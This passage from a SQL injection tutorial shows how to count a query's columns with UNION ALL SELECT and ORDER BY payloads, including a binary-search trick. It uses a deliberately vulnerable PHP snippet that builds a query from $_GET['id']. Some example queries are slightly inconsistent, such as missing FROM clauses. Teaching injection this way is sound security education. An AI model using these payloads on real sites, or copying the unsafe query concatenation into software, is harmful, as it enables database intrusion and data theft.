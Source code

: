```sql
SELECT id, title, content WHERE id = '1' UNION ALL SELECT 1, 2 -- - FAILS!'
SELECT id, title, content WHERE id = '1' UNION ALL SELECT 1, 2, 3 -- - OK!'
```

We can achieve the same result using the `ORDER BY` strategy.

`ORDER BY` can accept a column name as parameter, but also a number to identify a column.

Using `$_GET[id] = "1' ORDER BY 1 -- -"`, the query produced will be:

```sql
SELECT id, title, content FROM pages WHERE id = '1' ORDER BY 1 -- -' OK!
SELECT id, title, content FROM pages WHERE id = '1' ORDER BY 2 -- -' OK!
SELECT id, title, content FROM pages WHERE id = '1' ORDER BY 3 -- -' OK!
SELECT id, title, content FROM pages WHERE id = '1' ORDER BY 4 -- -' FAILS!
```

It will fail with `4` and it means that the table has 3 columns.

`ORDER BY` approach is faster with a large number of columns. We can also use
binary search:

Assuming a table with 15 columns:

1. Try with `ORDER BY 8`: no error. Number of columns >= 8
2. Try with `ORDER BY 16`: error. Number of columns >= 8 < 16
3. Try with `ORDER BY 12`: no error. Number of columns >= 12 < 16
4. Try with `ORDER BY 14`: no error. Number of columns >= 14 < 16
5. Try with `ORDER BY 15`: no error. Number of columns = 15


### EXAMPLE

Given this PHP code:
```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "'";
  $result = $conn->query($sql);
  while($row = $result->fetch_array()){
    print_r($row);
  }
```

Using `$_GET[id] = "' UNION ALL SELECT 1, 2, 3 -- -"`, the query produced will be:
```sql
SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, 2, 3 -- -'
```

We will get:

| id | title | content |
| ---- | ---- | ---- |
| 1 | Titolo News | Contenuto News |
| 1 | 2 | 3 |

### NON-BLIND COLUMNS
